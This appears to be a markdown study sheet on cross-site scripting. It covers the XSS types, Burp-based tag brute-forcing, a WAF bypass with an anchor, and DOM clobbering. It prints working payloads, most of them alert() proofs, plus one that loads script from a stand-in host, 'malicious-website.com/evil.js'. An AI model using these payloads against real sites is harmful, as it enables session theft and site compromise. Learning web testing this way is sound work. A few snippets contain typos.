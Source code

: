 
## types
### Stored (Persistent) 
XSS 	The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)

## Reflected (Non-Persistent) XSS 	
Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)


## DOM-based XSS 	Another Non-Persistent 
XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)


## Tags bruteforcing
- [How to search for XSS (with blacklisted HTML tags)](https://www.youtube.com/watch?v=0kfQsRwr_Bc)
- [portswigger/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

#### steps 
Searching for allowed tags to be inserted in the search field as parameter
1. 'insertpayloadhere' in the field
2. intercept with burp and send to intruder
3. add the tag list to the payload in the intruder settings
4. brute force and look for the 200, we're looking for a tag which allow to have <script> </script>
5. once the tag has been found you need to search for the event eg:onbegin
6. in the search field we will use url encoding: 
```
%3C -> < 
%3E -> >
%20 -> space
%3Csvg%3E%3Canimatetransform%20onbegin%3Dalert%28%22xss%22%29%3E
```

## Waf bypass with anchor
- [Two solutions for the January 2021 Initigriti XSS Challenge](https://www.youtube.com/watch?v=Wbovgw3Qxxc)
```
onmouseover=alert(document.location.has.substring(1))#payloadhere
```

##  Exploiting DOM clobbering to enable XSS
- [Two solutions for the January 2021 Initigriti XSS Challenge]([https://www.youtube.com/watch?v=Wbovgw3Qxxc](https://youtu.be/Wbovgw3Qxxc?t=912))
- [portswigger/dom-based/dom-clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering)
- [portswigger/dom-based/Advanced-dom-clobbering](https://portswigger.net/research/dom-clobbering-strikes-back)
- [HTMLCollection](https://developer.mozilla.org/en-US/docs/Web/API/HTMLCollection)
![](https://i.redd.it/z8hid4itywd91.png)
#### Clobbering definition:
To strike violently and repeatedly; batter or maul. But, In software engineering and Computer science, clobbering a file, Processor register or regions of computer memory is the process of overwriting its contents completely. 
#### Explanation:
~~DOM clobbering is a technique to escalate HTML injection to XSS which has a high impact  DOM clobbering is particularly useful in cases where XSS is not possible, but you can control some HTML on a page where the attributes id or name are whitelisted by the HTML filter. The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.~~
DOM Clobbering use the HTMLCollection vulnerability which allow you to add to the HTMLCollection a malicious item with the same id. 
#### Steps:
1. find a form where you can submit some html
2. check in the javascript if there is a ```window.element || something here``` 
3. bypass the sanitization with double anchortag ```<a id=defaultAvatar><<a id=defaultAvatar name=avatar href='cid:"onerror=alert(1)//)"'>
  - ```<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>```


## Other Resources:
#### xss API [video](https://youtu.be/xH8WbuApFXw?t=2358)
- filtering and sanitazation come frontend back end.
- Always test that frontend and backend are sanitized.
- eg: registering an account by API with email.

 

